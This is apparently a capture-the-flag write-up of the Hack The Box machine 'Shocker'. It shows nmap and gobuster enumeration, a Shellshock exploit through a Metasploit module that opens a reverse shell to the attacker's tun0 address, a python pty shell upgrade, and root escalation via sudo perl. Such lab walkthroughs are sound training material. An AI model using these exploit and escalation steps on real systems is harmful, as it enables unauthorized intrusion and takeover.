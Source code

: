 
29 JUL 2021

![image](https://user-images.githubusercontent.com/67979878/127450744-30c409b9-1de0-41c9-b056-deb197644ff8.png)

SCANNING
=========

intial scanning
---------------
$nmap -sV -v -sC 10.10.10.56 -oN nmap/intial

````
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu

````


ENUMERATION
===========
hence challenge name is shocker i tried /cgi-bin/ 
and it exists but forbidden .

$ gobuster dir -u "http://10.10.10.56/cgi-bin/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh| tee gobuster.txt


#user.sh


EXPLOITATION
=============
shellshock exploit .

$msfconsle

use :

multi/http/apache_mod_cgi_bash_env_exec


set targeturi /cgi-bin/user.sh

set rhost target

set lhost tun0

now we have a meterpreter shell :

meterpreter > shell

for a better shell :) 

`$python3 -c "import pty;pty.spawn('/bin/bash')"`


PRIVELEGE ESCALTION
===================

$sudo -l 

we can see shelly can run perl as root  .


https://gtfobins.github.io/gtfobins/perl/#sudo


`$sudo perl -e 'exec "/bin/sh";' `


#pwned.

